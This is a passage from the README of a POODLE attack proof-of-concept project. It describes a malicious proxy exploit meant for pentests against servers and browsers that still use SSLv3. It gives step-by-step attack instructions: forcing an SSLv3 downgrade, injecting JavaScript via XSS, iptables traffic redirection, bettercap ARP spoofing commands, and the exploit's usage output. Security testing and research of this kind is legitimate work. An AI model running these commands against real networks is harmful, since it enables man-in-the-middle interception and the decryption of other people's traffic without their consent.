 ##### 2. The poodle-poc.py file

The file `parallelization-poodle.py` is a project, and idea :) check https://github.com/mpgn/poodle-PoC/issues/1
```bash
python3 parallelization-poodle.py
```

[![asciicast](https://asciinema.org/a/cuj891xnb8djk5luiwilr9igk.png)](https://asciinema.org/a/cuj891xnb8djk5luiwilr9igk)


##### 3. The poodle-exploit.py file

This is the real exploit. Really usefull with you want to make a proof a concept about the Poodle Attack for a client during a pentest if he used old server and browser. Just put the ip of your malicious proxy into the config browser with the correct port, the proxy will take care of the rest.

**Requirement:**
- make sure the client and the browser can communicate with the protocol SSLv3 **only**, force only SSLv3 in firefox using `security.tls.version.min: 0` for example. Alternatively, if the client also use TLS you can force the downgrade
- make sure the server is vulnerable, use the tool [testssl.sh](https://testssl.sh/)
![image](https://user-images.githubusercontent.com/5891788/51736286-f97f7900-2089-11e9-9bc2-814c5b30213f.png)
- make sure you can inject Javascript on the client side (XSS)
- make sure you can intercept the connection between the client and the server

:skull: **If you have these prerequisites you can start the attack** :skull::

Tow options ara available for this exploit:

1. Setup the IP adress and the port of the proxy directly on the client side and run the exploit ( go to the part 3)
2. Setup an ARP spoofing attack to redirect all the traffic between the client and the server on your machine

  - Enable the forwarding and set an Iptable rule to redirect the traffic from the client to your proxy
```bash
$> echo 1 > /proc/sys/net/ipv4/ip_forward
$> iptables -i vmnet1 -t nat -A PREROUTING -p tcp --dport 1337 -j REDIRECT --to-ports 1337
```

  - Use the tool `arpspoof`, `ettercap` or `bettercap` to run an ARP spoofing attack
```bash
$> bettercap -iface vmnet1
net.show
set arp.spoof.internal true
arp.spoof on
```

3. Run the proxy

```zsh
⋊> ~/T/poodle-Poc on master ⨯ python3 poodle-exploit.py -h              13:10:24
usage: poodle-exploit.py [-h] [--start-block START_BLOCK]
                         [--stop-block STOP_BLOCK] [--simpleProxy SIMPLEPROXY]
                         proxy port server rport

Poodle Exploit by @mpgn_x64

positional arguments:
  proxy                 ip of the proxy
  port                  port of the proxy
  server                ip of the remote server
  rport                 port of the remote server

optional arguments:
  -h, --help            show this help message and exit
  --start-block START_BLOCK
```